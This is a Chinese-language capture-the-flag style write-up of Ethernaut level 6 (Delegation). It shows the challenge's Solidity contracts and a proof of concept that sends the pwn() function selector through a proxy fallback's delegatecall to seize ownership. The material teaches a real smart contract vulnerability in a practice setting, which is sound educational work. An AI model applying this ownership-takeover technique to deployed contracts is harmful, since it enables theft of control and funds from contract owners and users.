

<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令


:::

#### 第六关Delegate  思路与POC

##### 目标: 获取Delegation合约的所有权

#### 先看代码:

##### 这里很明显是在测试你懂不懂的底层函数delegatecall的用途

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}
//此合约作为Delegate合约的代理,
//外部调用通过发送交易调用此合约的fallback函数调用具体声明逻辑的合约(此处为Delegate合约)
contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

poc思路:point_right:：在Delegation合约中并没有更改owner变量的逻辑,所以很明显你需要代理调用Delegate合约中的pwn函数

```solidity
 //生成call data
  function getData() public pure returns (bytes4 ) {
        return bytes4(keccak256("pwn()"));
    }
```

```js
/*
from:你的钱包地址
to:Delegation合约实例地址
data:字节码格式的函数名称 
*/
await sendTransaction({from: '0x0e21d35681E679C33dD49731935FB81F1aee8C05' , to:'0x9a47F3A18F013726705Ca844e15FDb5C5645A684',data:'0xdd365b8b' })
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
```

:ok_hand:


